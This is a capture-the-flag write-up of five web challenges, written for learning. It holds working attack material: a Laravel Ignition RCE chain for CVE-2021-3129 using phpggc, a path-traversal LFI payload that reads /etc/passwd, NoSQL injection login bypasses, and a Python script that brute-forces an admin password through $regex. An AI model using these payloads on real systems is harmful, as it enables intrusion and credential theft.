 # Web

## Inspector gadget

* Visiting the webpage we see a part of a flag: CHTB{

* If we keep looking around the pages, we find in /static/js/main another part of the flag:

```
us3full_1nf0rm4tion}
```

* This in combination with the flag on the website is not the correct flag so far.
* static/css/main.css has another potential hint at the top with: c4n_r3ve4l_ 
* so, so far we have collected 3 pieces of a flag:

```
1. CHTB{
2. us3full_1nf0rm4tion}
3. c4n_r3ve4l_ 
```

* in js.main we will also find the last piece of our flag:1nsp3ction_
* the full flag ended up being :`CHTB{1nsp3ction_c4n_r3ve4l_us3full_1nf0rm4tion}`

## OR

visiting the website

found a part of the flag in http://139.59.185.150:30886/ as a header
```
CHTB{
```
inspected page and found 
```
1nsp3ction_
```
and found this url as well http://139.59.185.150:30886/static/js/main.js
```
console.log("us3full_1nf0rm4tion}");
```
and http://139.59.185.150:30886/static/css/main.css
```
c4n_r3ve4l_
```
>CHTB{1nsp3ction_c4n_r3ve4l_us3full_1nf0rm4tion}


## Cass

* Input sanitization is only in front end via javascript
* we can use burpsuite to bypass that

![](https://i.imgur.com/YAWIJh8.png)

---

## DAAS


* The hint for this challenge talks about being stuck in debug.
* Some research shows there is a CVE for this, and the Laravel version were working with is vulnerable.
* https://www.exploit-db.com/exploits/49424
* https://www.youtube.com/watch?v=gr8ZKQpYiug&

**CVE-2021-3129** : https://nvd.nist.gov/vuln/detail/CVE-2021-3129

* Find 

```
ip/_ignition/execute-solution
```

* For a laravel panel with error messages and stack trace. 

![](https://i.imgur.com/gKPsolp.jpg)

* https://www.ambionics.io/blog/laravel-debug-rce
* As mentioned in the blog above i tried performing a post request but it gave me a 302 response
* but the above link mentions their github page and exploit which is
`https://github.com/ambionics/phpggc`
and 
`https://github.com/ambionics/laravel-exploits`

the idea is to get the phar file with ur custom command from 1st repo and then put the phar file into the exploit with specified url to run the exploit
**PS: for a linux command with spaces simply use** `"` 

* so for our case since we know the flag was found on the root directory and its name as 

```
flagM1AhS
```

* our phpggc command should be

```bash
php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system "cat /flagM1AhS"
```

* run that in the exploit as:

```bash
./laravel-ignition-rce.py http://165.227.234.7:31636/ /tmp/exploit.phar
```

* and we have the flag:

```
CHTB{wh3n_7h3_d3bu663r_7urn5_4641n57_7h3_d3bu6633}
```

---

## MiniSTRyplace

* hint1: “Let's read this website in the language of Alines. Or maybe not?
This challenge will raise 33 euros for a good cause.”
* hint2: The challenges name is “miniSTRyplace”. This is a play on words for str_replace.
* We see right away that we can change language and it is represented:
`ip.address/?lang=es.php` a perfect place to try LFI

* In order to prevent path traversal, developers can implement blacklisting. It will usually look something like this:

```
$language = str_replace('../', '', $_GET['language']);
```

* This is where you can see the name of the challenge was a hint to the sec measures used.
*now we can modify our final payload to bypass blacklisting:

```
http://46.101.77.180:32490/?lang=....//....//....//....//....//....//....//....//etc/passwd
```

* Our exploit is successful, to get the flag we just used the following :

```
http://165.227.234.7:30779/?lang=....//....//flag
```

---

## Wild Goose Hunt

* We have a cool login page and source of the web app for this one
* entrypoint.sh contains the following :

```bash
    #!/bin/ash
    
    # Secure entrypoint
    chmod 600 /entrypoint.sh
    mkdir /tmp/mongodb
    mongod --noauth --dbpath /tmp/mongodb/ &
    sleep 2
    mongo heros --eval "db.createCollection('users')"
    mongo heros --eval 'db.users.insert( { username: "admin", password: "CHTB{f4k3_fl4g_f0r_t3st1ng}"} )'
    /usr/bin/supervisord -c /etc/supervisord.conf
```

* we can see that the flag is being stored as the password of admin
* we need to somehow extract the password
* since its mongoDB first assumption was to check for NoSQL injection
* Here is the error message we get in burp for a normal attempt

![](https://i.imgur.com/a6SHoz1.png)

* Lets switch to repeater here

![](https://i.imgur.com/OCUf50J.png)

* so we are getting a json response and the message is being displayed in the frontend
* next i tried some basic payloads for NoSQL injection

```
username[$ne]=lol&password[$ne]=lol
```

![](https://i.imgur.com/dAoe0x1.png)

* Authentication bypassed! but we dont get any functionality in the frontend so i proceeded with more payloads

```
username=admin&password[$regex]=A*
```

![](https://i.imgur.com/R8jFTkd.png)

* This is an interesting payload because we can use a wildcard to check if a particular character is present in the password or not! 
* we know that the flag is the password and flag begins with `CHTB{` so I tried that next

```
username=admin&password[$regex]=CHTB{.*
```

![](https://i.imgur.com/MQW6gAM.png)

* And it works again!
* Now we can bruteforce characters and check for success message to get correct characters
* I created a small python script for it

```python
    #!/usr/bin/env python3
    #################################
    ## Author    : thewhiteh4t ######
    ## Challenge : Wild Goose Hunt ##
    #################################
    import json
    import requests
    ip = '138.68.187.25'
    port = 31370
    url = f'http://{ip}:{port}/api/login'
    flag = 'CHTB{'
    charset = '_01234abcdefghijklmnopqrstuvwxyz'
    loop_iter = 1
    while flag.endswith('}') == False:
        for char in charset:
            if loop_iter == 1:
                payload = flag + char + '.*'
            else:
                payload = flag + '}'
            data = {
                'username': 'admin',
                'password[$regex]': payload
            }
            try:
                rqst = requests.post(url, data=data)
            except Exception as e:
                print(f'[-] Exception : {e}')
                exit()
            if rqst.status_code == 200:
                resp = rqst.text
                json_resp = json.loads(resp)
                status = json_resp['logged']
                if status == 1:
                    if payload.endswith('}') == False:
                        flag = payload.replace('.*', '')
                    else:
                        flag = payload
                        print(f'FLAG : {flag}')
                        exit()
                    print(f'FLAG : {flag}')
                    loop_iter = 0
                    break
            else:
                print(f'[-] Error : {rqst.status_code}')
        loop_iter += 1
```

![](https://i.imgur.com/c9pYtkb.png)
